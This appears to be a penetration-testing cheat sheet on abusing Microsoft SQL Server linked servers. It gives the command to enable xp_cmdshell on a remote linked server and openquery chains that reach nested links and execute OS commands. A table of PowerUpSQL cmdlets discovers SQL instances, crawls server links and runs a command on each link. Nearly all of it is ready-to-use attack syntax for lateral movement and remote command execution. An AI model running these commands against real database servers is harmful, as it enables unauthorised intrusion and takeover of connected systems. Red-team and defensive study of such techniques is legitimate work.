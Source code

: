 ## Enable xp_cmdshell
```
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "\$ServerName"
```

## MSSQL
| Query | Description |
| --- | --- |
| select \* from master..sysservers | Look for links to remote servers |
| select \* from openquery("\$ServerName",'\$query') | Run queries on linked database |
| select \* from openquery("\$ServerName",'select \* from openquery("\$ServerName","select \* from master..sysservers")') | Chain openquery queries to access nested links (links within links) |
| select \* from openquery("\$ServerName",'select \* from openquery("\$ServerName","select @@version as version;exec master..xp_cmdshell "\$Command")) | Chain openquery queries to execute commands on nested links (links within links) |

## PowerUpSQL

| Command | Description |
| --- | --- |
| Get-SQLInstanceDomain | Discover SQL SPNs |
| Get-SQLConnectionTestThreaded | Check Accessibility |
| Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose | Check Accessibility |
| Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose | Gather more information regarding the server and permissions |
| Get-SQLServerLink -Instance \$InstanceName -Verbose | Look for links to remote servers |
| Get-SQLServerLinkCrawl -Instance \$InstanceName -Verbose | Crawl links to remote servers |
| Get-SQLServerLinkCrawl -Instance \$InstanceName -Query "exec master..xp_cmdshell '\$Command'" | For each Link attempt to execute \$Command using xp_cmdshell |

